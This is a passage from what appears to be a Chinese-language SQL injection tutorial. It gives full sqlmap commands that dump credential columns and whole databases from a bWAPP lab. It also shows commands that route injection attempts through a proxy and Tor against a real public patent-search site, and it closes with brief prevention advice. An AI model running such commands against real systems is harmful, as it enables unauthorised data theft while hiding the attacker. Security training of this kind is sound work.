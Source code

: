 ### 4.3.4 获取某张表的所有字段

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b -D bWAPP -T users --columns
```

### 4.3.5 获取表中的数据

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent -f -b --dump -C "login,password" -D bWAPP -T users
```

### 4.3.6 脱库

```
导出所有数据
--dump-all
```

### 4.3.7 当前用户是否是DBA

```
sqlmap -u "http://10.102.224.206:9091/sqli_2.php?movie=2&action=go" --cookie="security_level=0; PHPSESSID=6b1e00vmg8os2eiq2d4n3pon60" --random-agent --is-dba
```

### 4.3.7 使用代理

```shell
1.使用传统代理方式--proxy
sqlmap -u "https://worldwide.espacenet.com/3.2/rest-services/search" --data="lang=en,de,fr&q=CN201922045N&qlang=cql&=" --random-agent --proxy='http://120.194.55.139:6969' --current-db


2.使用洋葱路由 --tor --tor-type="SOCKS5" (前提是已经安装了洋葱浏览器)
sqlmap -u "https://worldwide.espacenet.com/3.2/rest-services/search" --data="lang=en,de,fr&q=CN201922045N&qlang=cql&=" --random-agent --tor --tor-type='SOCKS5' --current-db --check-tor
```



# 5.sql注入预防

## 5.1 mysql注入预防

```
primary defenses:
1.use of prepared statements(with parameterized queries)
2.use of stored procedures
3.allow-list input validation
4.escaping all user supplied input

additional defenses:
1.enforcing least priviledge
2.performing allow-list input validation as a secondary defense
```

https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html
